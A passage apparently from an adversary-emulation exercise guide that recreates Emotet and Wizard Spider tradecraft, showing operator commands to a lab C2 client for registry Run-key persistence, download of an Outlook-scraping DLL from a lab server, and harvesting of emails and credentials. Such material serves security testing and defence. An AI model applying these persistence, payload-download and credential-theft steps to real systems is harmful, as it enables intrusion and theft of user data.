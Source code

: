 The registry key is written using the `RegSetValueExA` WinAPI function.

---

#### ☣️ Procedures

Open a horizontal terminal tab (right-click split horizontally).

Copy/paste the command in your lower terminal tab:

```bash
# Emotet has been observed adding the downloaded payload to the HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run key to maintain persistence.[6][7][8]

# Wizard Spider has established persistence via the Registry key HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run and a shortcut within the startup folder.[2][3]

./evalsC2client.py --set-task DOROTHY_DABB41A5 1
```

[Source Code](../../Resources/Emotet/EmotetClientDLL/EmotetClientDLL/persistence.cpp#L21)

#### :microscope: Cited Intelligence

* <https://www.cynet.com/attack-techniques-hands-on/emotet-vs-trump-deep-dive-analysis-of-a-killer-info-stealer/>

* <https://www.symantec.com/blogs/threat-intelligence/evolution-emotet-trojan-distributor>

* <https://www.us-cert.gov/ncas/alerts/TA18-201A>

* <https://www.picussecurity.com/blog/the-christmas-card-you-never-wanted-a-new-wave-of-emotet-is-back-to-wreak-havoc.html>

<br>

### Step 3 - Emotet Host Discovery and Credential Collection

:microphone: `Voice Track:`

Wizard Spider first enumerates local processes using WinAPI functions: `CreateToolhelp32Snapshot` and `Process32First`.

Wizard Spider then downloads and loads an Outlook scraper DLL using the `LoadLibraryW` and `GetProcAddress` functions.

Lastly, Wizard Spider executes the Outlook-scraper to dump emails and contacts.

One of the emails contains credentials for another user, <bill@oz.local>, which will be used in the next step.

Download Info:

```
URL (HTTP GET): http://192.168.0.4:80/modules

Download occurs over HTTP. All traffic is AES encrypted and base64 encoded in transit.

File Write:     C:\Windows\SysWOW64\Outlook.dll
```

---